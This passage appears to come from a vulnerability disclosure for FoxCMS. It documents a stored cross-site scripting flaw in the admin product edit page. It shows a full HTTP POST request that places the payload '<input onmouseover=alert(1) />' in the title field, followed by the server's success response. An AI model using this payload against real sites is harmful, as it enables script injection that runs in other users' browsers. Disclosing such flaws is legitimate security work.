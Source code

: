 ```
		foxui.message({
			type: 'warning',
			text: res.msg
		})
	},
})
```

Function point location：

<img width="2878" height="1474" alt="36edf75e-fbcc-4333-8282-28c50adf394f" src="https://github.com/user-attachments/assets/44d5b6a8-bf1b-41f9-9c8f-964428c7c42d" />


Request:

```
POST /index.php/admin4435/Product/edit.html HTTP/1.1
Host: www.foxcms.cms
Content-Length: 346
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36 Edg/140.0.0.0
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://www.foxcms.cms
Referer: http://www.foxcms.cms/index.php/admin4435/Product/edit.html?type=1&bcid=3_14&id=26
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=7c8341b30311677309e6835915d1b2c9; access_127_0_0_1=1761129226
Connection: close

id=26&title=%3Cinput+onmouseover%3Dalert(1)+%2F%3E&brief_title=&article_field=&column_id=14&column=A%E7%B3%BB%E5%88%97&breviary_pic_id=&keywords=&description=&article_source=&author=&team_status=%2C&content=&release_time=2025-10-22+18%3A48&picset_ids=&click=0&status=1&tags=&product_attr_ids=3%2C4%2C5%2C6%2C7%2C8%2C9%2C&price=&buy_link=&big_img=
```

Response:

```
HTTP/1.1 200 OK
Server: nginx/1.15.11
Date: Wed, 22 Oct 2025 10:51:01 GMT
Content-Type: application/json; charset=utf-8
Connection: close
X-Powered-By: PHP/7.3.4
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 1800
Access-Control-Allow-Methods: GET, POST, PATCH, PUT, DELETE, OPTIONS
Access-Control-Allow-Headers: Authorization, Content-Type, If-Match, If-Modified-Since, If-None-Match, If-Unmodified-Since, X-CSRF-TOKEN, X-Requested-With
Access-Control-Allow-Origin: http://www.foxcms.cms
Set-Cookie: PHPSESSID=7c8341b30311677309e6835915d1b2c9; expires=Thu, 23-Oct-2025 10:51:01 GMT; Max-Age=86400; path=/
Content-Length: 59

{"code":1,"msg":"操作成功","data":"","url":"","wait":1}
```
<img width="2878" height="1624" alt="image" src="https://github.com/user-attachments/assets/5edf4322-dd5b-401c-8bee-2bba40615122" />
